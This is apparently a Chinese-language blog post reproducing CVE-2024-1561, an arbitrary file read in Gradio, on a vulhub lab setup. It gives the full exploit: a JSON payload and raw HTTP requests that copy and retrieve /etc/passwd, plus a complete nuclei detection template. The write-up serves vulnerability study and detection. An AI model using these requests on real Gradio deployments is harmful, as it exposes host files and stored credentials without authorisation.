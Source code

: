```yaml
---
title: "CVE-2024-1561复现"
description: "CVE-2024-1561复现"
date: 2025-06-15
tags:
  - "CVE-2024-1561"
  - "Python"
  - "复现"
  - "安全分析"
authors:
  - "bx"
draft: false              # 设为 true 则为草稿
slug: "CVE-2024-1561"          # 随机URL字符串
---
```

<meta name="referrer" content="no-referrer">

# CVE-2024-1561复现
NVD 是这样描述的

> <font style="color:rgb(51, 51, 51);">在 gradio-app/gradio 中发现了一个问题，其中`/component_server`端点不当允许使用攻击者控制的参数调用`Component`类的任何方法。具体来说，通过利用`Block`类的`move_resource_to_block_cache()`方法，攻击者可以将文件系统上的任何文件复制到临时目录，并随后检索它。此漏洞允许未经授权的本地文件读取访问，尤其是在应用程序通过`launch(share=True)`暴露于互联网时，从而允许远程攻击者读取主机上的文件。此外，部署在`huggingface.co`上的 gradio 应用程序也受到影响，可能导致存储在环境变量中的敏感信息（如 API 密钥和凭证）的泄露。</font>
>

<font style="color:rgb(51, 51, 51);">参考文章</font>

[CVE-2024-1561漏洞复现](https://mp.weixin.qq.com/s/avowMUeEppLI88gOfy_B2g)



这里采用 vulhub 的 docker 搭建一个环境

[vulhub/gradio/CVE-2024-1561/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/gradio/CVE-2024-1561/README.zh-cn.md)

进入页面发现

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751646147946-f04fba59-52fc-447d-a5cf-b534e1f6ad1a.png)

> 这个项目之前在学习 LLM 是经常便捷构建界面使用的
>



访问`/config`

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751647657747-d95e3b8d-fb26-42d9-a7cd-61815fd1234b.png)

```python
{"version":"4.12.0","mode":"interface","app_id":18156613839225795048,"dev_mode":false,"analytics_enabled":true,"components":[{"id":3,"type":"row","props":
```



攻击 payload

```python
{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```

---》

```python
POST /component_server HTTP/1.1
Host: 43.134.9.57:7860
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}

```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751647987376-6ea0c773-5841-48f0-952f-79b93e759aee.png)

然后构造请求包

```python
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 43.134.9.57:7860
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate


```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751648076524-d3a0d772-428a-46ba-a004-a4f947b71e97.png)

结果如上，`/etc/passwd`的内容展示出来了







## 利用 nuclie 扫描
使用 nuclie 扫描

对应的 nuclie 仓库 yaml 文件如下

```python
id: CVE-2024-1561

info:
  name: Gradio Applications - Local File Read
  author: Diablo
  severity: high
  description: |
    Local file read by calling arbitrary methods of Components class
  impact: |
    Successful exploitation of this vulnerability could allow an attacker to read files on the server
  remediation: |
    Update to Gradio 4.13.0
  reference:
    - https://huntr.com/bounties/4acf584e-2fe8-490e-878d-2d9bf2698338
    - https://github.com/DiabloHTB/CVE-2024-1561
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1561
    - https://github.com/gradio-app/gradio/commit/24a583688046867ca8b8b02959c441818bdb34a2
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-1561
    cwe-id: CWE-29
    epss-score: 0.00045
    epss-percentile: 0.14639
  metadata:
    verified: true
    max-request: 3
    shodan-query: html:"__gradio_mode__"
  tags: cve,cve2024,intrusive,unauth,gradio,lfi,lfr

flow: http(1) && http(2) && http(3)

http:
  - raw:
      - |
        GET /config HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: json
        name: first-component
        part: body
        group: 1
        json:
          - '.components[0].id'
        internal: true

  - raw:
      - |
        POST /component_server HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"component_id": "{{first-component}}","data": "/etc/passwd","fn_name": "move_resource_to_block_cache","session_hash": "aaaaaaaaaaa"}

    extractors:
      - type: regex
        name: tmpath
        regex:
          - \/[a-zA-Z0-9\/]+
        internal: true

  - raw:
      - |
        GET /file={{tmpath}} HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - regex('root:.*:0:0:', body)
          - 'contains(header, "text/plain")'
        condition: and
# digest: 490a004630440220321f22e77b20acc61afa7b5cbf1f465becdb09178d7c23342a1d1be0a11c843502205a9d96fc3f2429ce7f2566dce2a289b2ff6529266cee50a0d24bd60336562f19:922c64590222798bb761d5b6d8e72950
```

结果如下

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1751702810188-b23dfcf3-227c-4a24-a6e7-5b21dfce1698.png)

这里也是成功检测出来了

